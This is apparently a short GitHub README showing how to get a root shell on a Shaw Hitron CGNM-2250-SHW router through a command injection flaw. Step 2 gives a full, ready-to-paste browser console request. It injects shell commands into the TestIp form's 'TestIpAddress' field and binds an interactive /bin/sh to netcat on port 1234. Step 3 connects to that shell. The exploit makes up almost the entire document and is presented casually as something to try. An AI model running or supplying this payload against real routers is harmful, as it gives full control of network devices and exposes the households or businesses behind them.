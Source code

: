 # CGNM-2250-SHW-Root
How to root CGNM-2250-SHW (Shaw Hitron Router)

I was messing around this weekend while putting of doing my COM100 project and I found this jucy vuln that gives you a root shell. Best of all its super easy to do, there are only 3 steps.

__1. login to the admin page of the rounter__
![admin page](https://github.com/CanadianCommander/CGNM-2250-SHW-Root/blob/master/HitronLogin.png)


__2. Paste this command in to the web browser console__

```
$.post("/goform/TestIp", {csrf_token: $("#csrf_token").val(), model: '{"TestIpAddress":"; rm -f /dev/myF; mkfifo /dev/myF; cat /dev/myF | /bin/sh -i 2>&1 | nc -l -p 1234 > /dev/myF;","UserType":"1","inputip":1,"TestMode":0}'}, function (data) {console.log(data)})
```
![run command in browser console](https://github.com/CanadianCommander/CGNM-2250-SHW-Root/blob/master/injectCommand.png)

__3. open a terminal and netcat to the router on port 1234__
![terminal netcat](https://github.com/CanadianCommander/CGNM-2250-SHW-Root/blob/master/rootShell.png)

As you can see you now get a jucy root shell (root is the only user that exists on the system). Have fun messing around!
